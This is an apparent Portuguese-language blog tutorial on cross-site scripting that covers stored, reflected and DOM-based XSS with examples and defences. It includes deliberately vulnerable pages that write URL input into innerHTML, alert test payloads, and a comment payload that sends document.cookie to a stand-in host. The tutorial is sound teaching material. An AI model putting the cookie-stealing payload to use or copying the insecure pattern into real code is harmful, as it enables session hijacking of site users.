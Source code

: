 ```yaml
---
layout: post
title: "Entendendo o XSS (Cross-Site Scripting): Conceitos e Exemplos"
date: 2023-05-02 23:48:46 -0300
categories: Segurança Programação Vulnerabilidades XSS
---
```


Olá! Neste post, vamos discutir o conceito de **Cross-Site Scripting (XSS)** e ver alguns exemplos que ilustram essa vulnerabilidade comum em aplicações web. Vamos aprender sobre as causas desse problema, como explorá-lo e como evitá-lo.

## O que é XSS?

Cross-Site Scripting (XSS) é uma vulnerabilidade de segurança que permite que um atacante injete código malicioso, geralmente scripts JavaScript, em páginas web visualizadas por outros usuários. Esses scripts podem acessar informações confidenciais, como cookies e tokens de sessão, ou até mesmo executar ações em nome da vítima.

## Tipos de XSS

Existem três tipos principais de XSS:

1. **XSS Persistente (Stored XSS)**: Ocorre quando o código malicioso é armazenado permanentemente em um servidor, geralmente em bancos de dados ou arquivos. Quando outros usuários acessam a página afetada, o script é executado em seus navegadores.
2. **XSS Refletido (Reflected XSS)**: Ocorre quando o código malicioso é injetado por meio de parâmetros GET ou POST e é imediatamente refletido na resposta do servidor. Geralmente, o atacante induz a vítima a clicar em um link malicioso que contém o código.
3. **XSS Baseado em DOM (DOM-Based XSS)**: Ocorre quando o código malicioso é injetado no Document Object Model (DOM) de uma página sem a necessidade de interação com o servidor. Esse tipo de XSS explora falhas no código JavaScript do lado do cliente.

## Exemplo de XSS Refletido

Vamos considerar um exemplo simples de XSS Refletido:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Exemplo de XSS Refletido</title>
</head>
<body>
    <h1>Resultado da Pesquisa:</h1>
    <div id="result"></div>
    <script>
        let searchQuery = new URLSearchParams(window.location.search).get('q');
        document.getElementById('result').innerHTML = 'Você pesquisou: ' + searchQuery;
    </script>
</body>
</html>
```

Neste exemplo, o script JavaScript insere o valor do parâmetro `q` diretamente no elemento HTML. Se um atacante criar um link como `https://example.com/search?q=<script>alert('XSS')</script>`, o script malicioso será executado no navegador do usuário.

## Exemplo de XSS Persistente

Suponha que temos um fórum onde os usuários podem postar comentários. Um exemplo de XSS Persistente pode ocorrer se o aplicativo não sanitizar corretamente as entradas dos usuários antes de armazená-las no banco de dados. Um atacante pode enviar um comentário contendo um script malicioso, como:

```js
Olá, pessoal! <script>document.location='http://malicious.example.com/steal?cookie=' + document.cookie;</script>
```

Quando outros usuários visualizarem esse comentário, o script malicioso será executado em seus navegadores, podendo roubar seus cookies e enviá-los para o site malicioso.

## Exemplo de XSS Baseado em DOM

Considere o seguinte exemplo de uma página que usa o DOM para exibir o resultado de uma pesquisa:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Exemplo de XSS Baseado em DOM</title>
</head>
<body>
    <h1>Resultado da Pesquisa:</h1>
    <div id="result"></div>
    <script>
        let searchQuery = document.location.hash.substring(1);
        document.getElementById('result').innerHTML = 'Você pesquisou: ' + decodeURIComponent(searchQuery);
    </script>
</body>
</html>
```

Neste exemplo, o script JavaScript lê o valor da pesquisa diretamente do fragmento da URL (parte após o símbolo "#") e insere-o no elemento HTML. Se um atacante criar um link como https://example.com/search#<script>alert('XSS')</script>, o navegador da vítima executará o script malicioso ao acessar o link.

## Conclusão

O Cross-Site Scripting (XSS) é uma das vulnerabilidades mais comuns em aplicações web. Para proteger seu site contra ataques de XSS, é importante seguir boas práticas de segurança, como a sanitização adequada das entradas dos usuários e a validação das entradas do lado do cliente e do servidor.

Também é essencial usar políticas de segurança de conteúdo (Content Security Policy - CSP) para limitar a execução de scripts de origens não confiáveis e impedir a exploração de vulnerabilidades XSS. Além disso, é importante manter-se atualizado sobre as últimas tendências e técnicas de ataque para garantir a segurança contínua de sua aplicação web.

Ao adotar essas práticas e conscientizar-se das diferentes formas de XSS, como XSS Persistente, XSS Refletido e XSS Baseado em DOM, você estará mais bem preparado para identificar e mitigar possíveis vulnerabilidades em seu site ou aplicação web.
